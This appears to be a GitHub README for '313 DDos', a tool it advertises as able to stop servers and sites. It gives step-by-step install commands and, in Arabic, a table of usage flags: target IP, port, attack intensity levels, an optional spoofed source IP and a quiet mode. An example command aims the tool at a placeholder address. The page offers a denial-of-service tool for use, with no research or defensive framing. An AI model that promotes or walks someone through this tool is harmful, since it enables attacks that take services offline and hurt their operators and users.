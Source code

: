 # 313 DDos

DDOS Strong Tool To Stop Servers And Sites



## installing

- 1 . <code> pkg install python </code>
- 2 . <code> git clone https://github.com/Clxzner/313-DDos </code>
- 3 . <code> cd 313-DDos </code>
- 4 . <code> pip install -r installing.txt </code>
- 5 . <code> python 313DDos.py -h  </code>




### Command information:
    الاستخدام :
$ <code>python 313DDos.py [-i] [-p] [-l]    </code>     

│         -h : للمساعده                             
│         -i : اي بي السيرفر                            
│         -p : البورت المراد استهدافه                          
│         -l : عدد مستويات الهجوم                
│         -f : ال ايبي الزائف اختياري                              
│         -d : اخفاء وتقليل الرسائل المنبثقه                         
 مثال :                                        
<code> python 313DDos.py -i 12.345.678.90 -p 80 -l  2 </code>


